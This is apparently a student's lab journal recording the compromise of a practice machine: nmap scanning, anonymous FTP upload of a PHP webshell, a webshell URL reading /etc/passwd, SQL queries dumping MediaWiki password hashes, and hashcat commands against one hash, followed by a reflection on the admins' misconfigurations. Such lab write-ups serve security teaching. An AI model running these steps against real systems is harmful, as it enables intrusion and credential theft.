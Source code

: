 # Week 7 Tech Journal

## Exploiting Pippin

### Active Recon

* `nmap -sV 10.0.5.25 -p 1-1000`
* Probed httpd by visiting webpage
* Probed ssh by attempting to log in
* Probed ftp by attempting to log in
  * ftp probe resulted in a message declaring anonymous logins only, prompting me to log in anonymously

### ftp

* `ftp anonymous@10.0.5.25`
* press enter to bypass password prompt
* `put` to upload files
* `get` to download files
* `ls` to view directory
* `cd` to change directories

### Webshell
* Stored in /usr/share/webshells on Kali
* Simple php webshell allows simple commands in url
  * `http://10.0.5.25/upload/simple-webshell.php?cmd=cat+/etc/passwd`
* Was able to find user account using this method

### mySQL
* pulling LocalSettings.php showed password for mySQL database, and was also password for named user
* `mysql -u peregrin.took -p`
* `show databased;`
* `use mediawiki;`
* `show tables;`
* `describe user;`
* `select user_name, user_password from user;`
  * This delivered a username along with a hashed password

### Hashcat
> I was unable to crack this hash. Here are the commands I attemped to use.
* `hashcat -m 12100 -w 4 -a 0 -o cracked.txt pip.hash.txt wordlist.txt`
* `hashcat -m12100 pip.hash.txt -w4 -a0 wordlist.txt`
> Here are the variations of the hash I tried with the above commands
* `Pippin:pbkdf2:sha512:30000:64:7zMbdjXKrFDDq4CRF5q9ow==:49ImFWdWRVz2dCDsJPj+P0Xovz153VenjKk7npuK7u5xgo21IUh+eY0QH8fQxdH/Cjx3zxZyQcfNChAnP11GNg==`
* `Pippin:pbkdf2:hmac:sha512:30000:64:7zMbdjXKrFDDq4CRF5q9ow==:49ImFWdWRVz2dCDsJPj+P0Xovz153VenjKk7npuK7u5xgo21IUh+eY0QH8fQxdH/Cjx3zxZyQcfNChAnP11GNg==`
* `pbkdf2:sha512:30000:64:7zMbdjXKrFDDq4CRF5q9ow==:49ImFWdWRVz2dCDsJPj+P0Xovz153VenjKk7npuK7u5xgo21IUh+eY0QH8fQxdH/Cjx3zxZyQcfNChAnP11GNg==`
* `sha512:30000:64:7zMbdjXKrFDDq4CRF5q9ow==:49ImFWdWRVz2dCDsJPj+P0Xovz153VenjKk7npuK7u5xgo21IUh+eY0QH8fQxdH/Cjx3zxZyQcfNChAnP11GNg==`
> I created my wordlist with the following command
* `cat /usr/share/wordlists/rockyou.txt | grep '^p' > wordlist.txt`

### Reflection

#### What did the admins do wrong?
* ftp should not have been configured to allow anonymous access
* The upload folder should not have had such unrestrictive permissions
* The LocalSettings.php file should not have been stored in an unprotected directory
* The admins should not have used the same mySQL root password for a user account
* The system usernames and hashes should not have been stored in a vulnerable mySQL database

#### Where did I struggle?
* I resorted to the hint video because the idea of a webshell did not cross my mind
* The hint video also clued me in to the LocalSettings.php file
* I struggled with the hash cracking, so I resorted to the hint video for help
